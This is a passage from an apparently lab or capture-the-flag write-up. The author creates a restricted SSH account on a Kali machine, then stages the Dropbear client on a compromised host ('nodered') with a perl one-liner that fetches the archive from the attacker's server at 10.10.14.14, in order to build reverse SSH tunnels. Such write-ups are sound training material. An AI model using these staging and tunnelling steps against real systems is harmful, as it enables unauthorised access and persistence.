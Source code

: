 That makes it much harder for someone who gets ahold of the key I’m about to create to do anything useful hacking into my host. If you try to `ssh` into my box as dummy, it just closes:

```

root@kali# ssh dummy@localhost
dummy@localhost's password: 
Linux kali 4.18.0-kali3-amd64 #1 SMP Debian 4.18.20-2kali2 (2018-11-30) x86_64

The programs included with the Kali GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Kali GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Thu Jan 17 06:28:18 2019 from 127.0.0.1
Connection to localhost closed.

```

I can use the `-N` flag to connect without a shell, and the `-L`, `-R`, `-D` flags to forward ports (check out my [Intro to SSH Tunneling](/2018/06/10/intro-to-ssh-tunneling.html) for more details).

#### Build Dropbear

[Dropbear](https://matt.ucc.asn.au/dropbear/dropbear.html) is a statically compiled, relatively small ssh client that I will use to connect back to my kali box from nodered. I’ll grab the source from the website. I’ll copy the file to nodered using the file upload flow or the perl command to get a file over http:

```

# perl -e 'use File::Fetch; my $url = "http://10.10.14.14/dropbear-2018.76.tar.bz2"; my $ff = File::Fetch->new(uri => $url); my $file = $ff->fetch() or die $ff->error;'

# pwd
/tmp

# ls
dropbear-2018.76.tar.bz2

```

Open the archive with `tar`:

```

# tar xjvf dropbear-2018.76.tar.bz2                                                      
dropbear-2018.76/                                                                        
dropbear-2018.76/termcodes.h                                                  
dropbear-2018.76/dbmulti.c                                                                
dropbear-2018.76/cli-runopts.c  
...[snip]...

```
